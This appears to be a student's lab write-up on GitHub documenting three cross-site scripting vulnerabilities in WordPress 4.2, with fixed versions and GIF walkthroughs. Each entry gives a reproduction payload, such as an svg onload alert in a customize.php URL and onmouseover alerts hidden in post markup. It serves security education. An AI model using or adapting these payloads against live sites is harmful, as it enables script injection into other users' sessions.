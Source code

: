 # Project 7 - WordPress Pentesting

Time spent: **5** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID
  - [x] Summary: XSS (Authenticated Cross-Site Scripting)
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.6
  - [x] GIF Walkthrough: ![XSS1](https://user-images.githubusercontent.com/25422131/55770491-82d00600-5a52-11e9-86fc-d3f83d93c5a9.gif)
  - [x] Steps to recreate: Make a post and then enter the following in the reply:
    
    `http://www.test.com/wp-admin/customize.php?theme=<svg onload=alert(1)>`
  - [x] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/blob/master/wp-admin/customize.php)
2. (Required) Vulnerability Name or ID
  - [x] Summary: 
    - Vulnerability types:Cross-Site Scripting (XSS)
    - Tested in version:4.2
    - Fixed in version: 4.2.3
  - [x] GIF Walkthrough: ![XSS2](https://user-images.githubusercontent.com/25422131/55770524-a1ce9800-5a52-11e9-908d-7682e82e9755.gif)
  - [x] Steps to recreate: Make a post and in the body of the post enter the following:
  
  `<a href="[caption code=">]</a><a title=" onmouseover=alert('Exploit2!') ">here</a>`
  - [x] Affected source code:
   - [WPScan Vulnerability Database Vulnerability #7945](https://wpvulndb.com/vulnerabilities/7945)
   - [Letter by Jouko Pynnönen Regarding the Discovery of the Vulnerability](https://packetstormsecurity.com/files/131644/)

3. (Required) Vulnerability Name or ID
  - [x] Summary: 
    - Vulnerability types:CVE-2015-5734
    - Tested in version: 4.2
    - Fixed in version: 4.2.4
  - [x] GIF Walkthrough: ![XSS3](https://user-images.githubusercontent.com/25422131/55770542-b0b54a80-5a52-11e9-94ac-f26a8379cad5.gif)
  
  - [x] Steps to recreate: Make a post and type the following as a reply:
  
  `<a href='/wp-admin/' title="" style="position:absolute;top:0;width:10%;height:100%;display:block;" onmouseover=alert(3)//'>TEST</a>`
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [2019] [Harsh Patel]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
